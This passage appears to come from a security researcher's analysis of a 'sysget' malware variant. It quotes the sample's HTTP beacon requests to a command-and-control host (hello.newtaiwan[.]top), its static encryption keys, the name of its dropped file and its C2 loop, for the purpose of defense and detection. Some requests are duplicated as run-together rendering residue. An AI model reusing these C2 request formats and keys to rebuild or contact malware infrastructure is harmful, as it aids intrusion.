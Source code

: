 

The encryption of this configuration file is a new feature that was not present in the original version of sysget.
If this file is not present on the system, the malware will attempt to retrieve the necessary information via a HTTP request. The following request is made to the remote command and control server. Note that the full URI is statically set by the malware sample.





GET /index.php?type=read&id=1420efbd80ce02328663631c8d8f813c&pageinfo=jp&lang=
utf-8 HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like 
Gecko) Chrome/40.0.2214.115 Safari/537.36
Host: hello.newtaiwan[.]top




123456

GET /index.php?type=read&id=1420efbd80ce02328663631c8d8f813c&pageinfo=jp&lang=utf-8 HTTP/1.1Connection: Keep-AliveUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.115 Safari/537.36Host: hello.newtaiwan[.]top





The server responds with the following data, encrypted using the same technique previously described with a static key of ‘aliado75496’. Once decrypted, we see the following example data being sent back to sysget:
gh1443717133\n1059086204\n
The first string is used as a key for all subsequent network communication. The second string is treated as a unique victim identifier. This data is encrypted using the key of ‘734thfg9ih’ and written to the %APPDATA%/vklCen5.tmp file.
After this information has been obtained, the malware proceeds to enter its command and control loop. An HTTP request such as the following is made to the remote server. Note that the ‘mid’ GET variable holds the MD5 hash of the previously obtained victim identifier. The remaining data in the URI is hardcoded.





GET /index.php?type=get&pageinfo=bridge03443&lang=jp&mid=5717cb8fed2750a2ee9e8
30a30716ed4 HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.115 Safari/537.36
Host: hello.newtaiwan[.]top




12345

GET /index.php?type=get&pageinfo=bridge03443&lang=jp&mid=5717cb8fed2750a2ee9e830a30716ed4 HTTP/1.1Connection: Keep-AliveUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.115 Safari/537.36Host: hello.newtaiwan[.]top
